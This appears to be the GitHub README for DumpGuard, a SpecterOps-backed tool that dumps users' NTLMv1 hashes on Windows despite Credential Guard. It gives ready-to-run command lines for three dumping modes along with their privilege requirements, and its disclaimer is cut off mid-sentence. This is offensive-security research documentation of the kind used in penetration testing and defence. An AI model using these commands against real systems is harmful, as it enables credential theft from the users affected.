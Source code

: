 # DumpGuard
[![BSD3 License](https://img.shields.io/badge/License-BSD%203--Clause-orange.svg?style=flat)](LICENSE)
[![Bloodhound Slack](https://img.shields.io/badge/BloodHound%20Slack-4A154B?logo=slack&logoColor=white)](https://ghst.ly/BHSlack)
[![Sponsored by SpecterOps](https://img.shields.io/endpoint?url=https://raw.githubusercontent.com/specterops/.github/main/config/shield.json)](https://github.com/specterops)

![Logo](logo.jpeg)

DumpGuard is a credential dumping tool that can extract the NTLMv1 hashes of users on modern Windows systems.

The tool relies on the _Remote Credential Guard_ protocol, and allows credential dumping even when _Credential Guard_ is enabled on the local host. You may download prebuilt copies from the release section of this repository.

**Disclaimer:** I take no responsibility 

## Usage Overview
![Usage Scenarios](usages.png)

## Dumping Own Credentials Protected By Credential Guard
Privilege Requirement: **None**.

```
DumpGuard.exe /mode:self /domain:<DOMAIN> /username:<SAMACCOUNTNAME> /password:<PASSWORD>
```

## Dumping All Credentials Protected By Credential Guard
Privilege Requirement: **SYSTEM**.

```
DumpGuard.exe /mode:all /domain:<DOMAIN> /username:<SAMACCOUNTNAME> /password:<PASSWORD>
```

## Dumping All Credentials Protected By Remote Credential Guard
Privilege Requirement: **SYSTEM**.

```
DumpGuard.exe /mode:all
```

This is equivalent to the following [LSA Whisperer](https://github.com/EvanMcBroom/lsa-whisperer) command:
```
lsa-whisperer.exe msv1_0 Lm20GetChallengeResponse --luid {session id} --challenge {challenge to clients} [flags...]
```

## Acknowledgements

Thank you to [SpecterOps](https://specterops.io/) for supporting this research and to my coworkers who have helped with its development.
- [Elad Shamir](https://twitter.com/elad_shamir) for inspiring this tool and research, and for offering valuable perspective and encouragement whenever I hit a wall.
- [Evan McBroom](https://github.com/EvanMcBroom) for sharing useful insights on LSA internals and providing ASN.1 encoders for most of the structures used in this project.

## Related Tools
- [Mimikatz](https://github.com/gentilkiwi/mimikatz) ([Benjamin Delpy](https://github.com/gentilkiwi)) - A little tool to play with Windows security.
- [Kekeo](https://github.com/gentilkiwi/kekeo) ([Benjamin Delpy](https://github.com/gentilkiwi)) - A little toolbox to play with Microsoft Kerberos in C.

## Related Work
- [Oliver Lyak](https://github.com/ly4k) ([2022](https://research.ifcr.dk/pass-the-challenge-defeating-windows-defender-credential-guard-31a892eee22)), for what is, to my knowledge, the only public research on dumping credentials protected by Credential Guard.
- [James Forshaw](https://x.com/tiraniddo) ([2022](https://project-zero.issues.chromium.org/issues/42451433), [2022](https://project-zero.issues.chromium.org/issues/42451435), [2022](https://project-zero.issues.chromium.org/issues/42451397), [2022](https://project-zero.issues.chromium.org/issues/42451436)), for vulnerability submissions that slightly documents some of the undocumented interfaces that we have researched.
